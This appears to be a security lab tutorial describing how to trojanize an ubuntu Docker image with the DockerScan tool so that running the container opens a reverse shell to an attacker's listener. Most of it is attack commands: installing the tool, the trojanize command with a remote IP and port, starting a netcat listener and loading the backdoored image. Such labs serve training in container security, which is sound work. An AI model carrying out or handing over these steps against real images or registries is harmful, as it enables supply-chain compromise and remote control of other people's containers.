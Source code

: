 # **`Trojanize Docker - DockerScan`**

###### A docker image can be trojanized by a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container 

##### Step 1:

* Install `dockerscan`

```bash
export LC_CTYPE=en_US.UTF-8 && pip3 install dockerscan
```

* Pull and save ubuntu image (`ubuntu:latest`) that is to be trojanized.

```commandline
docker pull ubuntu:latest && docker save ubuntu:latest -o ubuntu-latest
``` 

![](img/trojan-docker-1.png)

##### Step 2:

* Fetch VM IP by running `ifconfig`

![](img/trojan-docker-2.png)


##### Step 3:

* Set the necessary environment variables for `dockerscan` to run

```bash
export LC_ALL=C.UTF-8

export LANG=C.UTF-8
```

* Trojanize the saved docker file by running `dockerscan image modify trojanize ubuntu-latest -l <REMOTE_MACHINE_IP> -p <PORT> -o ubuntu-latest-trojanized`. It will create a `.tar` file.

![](img/trojan-docker-3.png)


##### Step 4:

* Once the command on Step 3 has been run, a `netcat` command is returned. Copy and paste the command in another tab.

![](img/trojan-docker-4.png)


##### Step 5:

* Load the trojanized docker `.tar` file by running `docker load -i ubuntu-latest-trojanized.tar`

![](img/trojan-docker-5.png)


##### Step 6:

* When the trojanized docker is run, the listener should have reverse-shell access to the container

![](img/trojan-docker-6.png)


##### Stop all running docker containers

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```
